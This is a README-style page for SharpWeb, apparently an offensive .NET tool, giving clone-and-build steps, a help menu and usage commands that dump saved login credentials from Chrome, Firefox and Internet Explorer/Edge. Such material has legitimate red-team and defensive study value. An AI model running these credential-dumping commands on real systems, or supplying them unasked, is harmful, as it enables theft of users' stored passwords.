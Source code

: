 # SharpWeb

## 01 - Compile

Install a targeting pack from this [link](https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481). Then compile `SharpWeb`.

```
C:\> git clone https://github.com/djhohnstein/SharpWeb.git
cd SharpWeb
dotnet build -c Release -p:TargetFrameworkVersion=v4.8.1
```

## 02 - Help Menu

```
Usage:
    .\SharpWeb.exe arg0 [arg1 arg2 ...]

Arguments:
    all       - Retrieve all Chrome, FireFox and IE/Edge credentials.
    full      - The same as 'all'
    chrome    - Fetch saved Chrome logins.
    firefox   - Fetch saved FireFox logins.
    edge      - Fetch saved Internet Explorer/Microsoft Edge logins.
```

## 03 - Usage

All Browsers

```
C:\> SharpWeb.exe all
```

Google Chrome

```
C:\> SharpWeb.exe chrome
```

Firefox

```
C:\> SharpWeb.exe firefox
```

Microsoft Edge

```
C:\> SharpWeb.exe edge
```